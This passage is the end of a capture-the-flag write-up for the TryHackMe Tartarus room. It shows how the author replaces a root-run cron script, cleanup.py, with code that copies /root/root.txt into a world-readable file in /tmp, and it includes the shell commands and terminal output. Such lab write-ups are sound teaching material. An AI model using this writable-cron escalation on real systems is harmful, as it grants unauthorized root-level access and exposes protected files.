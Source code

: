 ```
-rwxrwxrwx  1 d4rckh d4rckh    0 Sep 20 12:10 key
```

 Now, we can change the code in `cleanup.py` as:

copying and pasting the following in the shell:

```
echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.py
```

We can check if this has been properly added to the `cleanup.py` file.

```
d4rckh@ubuntu-xenial:/tmp$ cd /home/d4rckh

d4rckh@ubuntu-xenial:/home/d4rckh$ echo '
import os
import sys 

os.system("cat /root/root.txt > /tmp/key")' > cleanup.pyecho '
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py


import os
import sys 

os.system("cat /root/root.txt > /tmp/key")
```

Now, as this file is being run by the `cron`. It'd automatically get executed in sometime and the flag would get written in the `/tmp/key` file.

```
d4rckh@ubuntu-xenial:/tmp$ cat key
```

And we get our root flag as well. So, with this we have completed the Tartarus room!



### Links Referred

1. TryHackMe-Tartarus: https://tryhackme.com/room/tartaraus
2. GTFOBins: https://gtfobins.github.io/



